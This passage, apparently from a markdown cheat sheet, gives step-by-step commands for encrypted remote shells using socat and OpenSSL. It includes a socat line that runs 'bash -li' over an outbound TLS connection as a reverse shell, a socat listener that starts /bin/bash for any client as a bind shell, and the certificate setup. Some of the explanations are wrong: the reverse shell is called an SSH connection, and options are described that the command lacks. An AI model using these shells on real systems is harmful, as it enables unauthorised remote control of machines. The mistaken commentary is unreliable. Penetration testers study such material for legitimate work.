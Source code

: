 3. On the remote machine, connect to the openssl listener using socat :

```
socat exec:'bash -li',pty,stderr openssl-connect:127.0.0.1:443,cert=cert.pem,key=key.pem,verify=0
```

- This command creates a secure shell (SSH) connection from the local system to a remote server using Socat and OpenSSL. When the connection is established, it starts a shell session on the remote server that is connected to the local system's terminal.

- this command creates a secure connection to a remote server using SSL/TLS encryption and starts a shell session on the remote server that is connected to the local system's terminal. It can be useful for managing remote servers or accessing systems securely over a network.
Once you've connected to the reverse shell, you can run commands as if you were using a regular shell

<br><br> 

## 4. Secure-BindShell With Socat & OpenSSL

- You can use OpenSSL and socat together to create a bind shell that uses SSL encryption to secure the connection. Here's an example of how to set up a bind shell using OpenSSL and socat:

1. Generate a self-signed SSL certificate and private key:

```
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out cert.pem
```

- This command generates a `self-signed SSL certificate` and `private key`. The `-newkey rsa:2048` option specifies that the key should be a `2048-bit RSA key`. The `-nodes` option specifies that the `private key should not be encrypted`. The `-x509 option specifies that the certificate should be a self-signed X.509 certificate`. The `-days 365` option specifies the `validity period of the certificate in days`. The `-out cert.pem` option specifies the `output file for the certificate`, and the `-keyout key.pem` option specifies the `output file for the private key`.

2. Start a socat listener on your machine:

```
socat openssl-listen:443,reuseaddr,cert=cert.pem,key=key.pem,verify=0,fork exec:'/bin/bash -li',pty,stderr
```

- This command starts a `socat listener on port 443, using SSL encryption with the SSL certificate and private key` generated in step 1. The `verify=0 option disables SSL certificate verification`. The `pty, stderr, setsid, sigint, and sane options allocate a pseudo-terminal for the client` and set up the environment for a new shell process. The `exec:/bin/bash` option specifies that a new shell process should be started when a client connects.

3. On the remote machine, connect to the socat listener using OpenSSL:

```
openssl s_client -connect <your_machine_ip>:443
```

This command connects to the socat listener on your machine, using SSL encryption. The openssl s_client command acts as a client that can communicate with the socat listener.

Once you've connected to the bind shell, you can run commands as if you were using a regular shell.
